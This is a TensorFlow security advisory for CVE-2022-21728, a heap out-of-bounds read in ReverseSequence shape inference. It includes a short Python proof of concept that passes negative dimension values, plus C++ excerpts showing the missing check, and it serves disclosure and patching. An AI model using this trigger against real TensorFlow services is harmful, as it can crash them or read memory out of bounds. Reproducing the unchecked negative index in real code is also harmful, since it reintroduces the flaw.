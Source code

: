 ## TFSA-2022-002: Heap OOB read in shape inference for `ReverseSequence`

### CVE Number
CVE-2022-21728

### Impact
The [implementation of shape inference for `ReverseSequence`](https://github.com/galeone/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/ops/array_ops.cc#L1636-L1671) does not fully validate the value of `batch_dim` and can result in a heap OOB read:

```python
import tensorflow as tf

@tf.function
def test():
  y = tf.raw_ops.ReverseSequence(
    input = ['aaa','bbb'],
    seq_lengths = [1,1,1],
    seq_dim = -10,
    batch_dim = -10 )
  return y

test()
```

There is a check to make sure the value of `batch_dim` does not go over the rank of the input, but there is no check for negative values:

```cc
  const int32_t input_rank = c->Rank(input);
  if (batch_dim >= input_rank) {
    return errors::InvalidArgument(
        "batch_dim must be < input rank: ", batch_dim, " vs. ", input_rank);
  }
  // ...

  DimensionHandle batch_dim_dim = c->Dim(input, batch_dim);
```

Negative dimensions are allowed in some cases to mimic Python's negative indexing (i.e., indexing from the end of the array), however if the value is too negative then [the implementation of `Dim`](https://github.com/galeone/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/framework/shape_inference.h#L415-L428) would access elements before the start of an array:

```cc
  DimensionHandle Dim(ShapeHandle s, int64_t idx) {
    if (!s.Handle() || s->rank_ == kUnknownRank) {
      return UnknownDim();
    }
    return DimKnownRank(s, idx);
  }
 
  static DimensionHandle DimKnownRank(ShapeHandle s, int64_t idx) {
    CHECK_NE(s->rank_, kUnknownRank);
    if (idx < 0) {
      return s->dims_[s->dims_.size() + idx];
    }
    return s->dims_[idx];
  }
```

### Patches
We have patched the issue in GitHub commit [37c01fb5e25c3d80213060460196406c43d31995](https://github.com/galeone/tensorflow/commit/37c01fb5e25c3d80213060460196406c43d31995).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Yu Tian of Qihoo 360 AIVul Team.
